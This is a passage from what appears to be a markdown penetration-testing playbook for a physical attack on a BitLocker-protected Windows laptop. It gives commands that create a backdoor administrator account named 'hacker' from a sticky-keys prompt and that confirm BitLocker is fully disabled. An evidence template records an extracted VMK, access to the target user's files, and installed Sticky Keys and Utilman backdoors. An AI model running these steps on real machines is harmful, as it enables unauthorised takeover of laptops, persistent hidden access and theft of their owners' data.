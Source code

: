 ### **Step 7.2: Verify Persistent Access**
```cmd
# From sticky keys command prompt
net user
net user Administrator

# Create additional backdoor user if needed
net user hacker Password123! /add
net localgroup administrators hacker /add
```

### **Step 7.3: System Status Verification**
```powershell
# Confirm BitLocker completely disabled
manage-bde -status C:
# Should show "Protection Off" and "Fully Decrypted"

# Verify boot configuration
bcdedit /enum {current}
# Should NOT show safeboot options
```

---

## 📊 **PHASE 8: EVIDENCE DOCUMENTATION**

### **Step 8.1: Screenshot Evidence**
```
Required screenshots:
1. Administrator desktop access
2. BitLocker status showing "Protection Off"
3. Target user files accessible
4. Sticky keys backdoor working
5. System information showing full access
```

### **Step 8.2: Technical Documentation**
```bash
# Create evidence file with key information
cat > engagement_evidence.txt << EOF
Engagement: Physical Laptop Recovery Assessment
Date: $(date)
Target System: [LAPTOP_MODEL/SERIAL_NUMBER]
VMK Extracted: [YOUR_EXTRACTED_VMK]
BitLocker Status: Permanently Disabled
Administrator Access: Confirmed
Target Data Access: [TARGET_USERNAME] files accessed
Persistence: Sticky Keys + Utilman backdoors installed
Forensic Image: [IMAGE_SIZE]GB complete
EOF
```
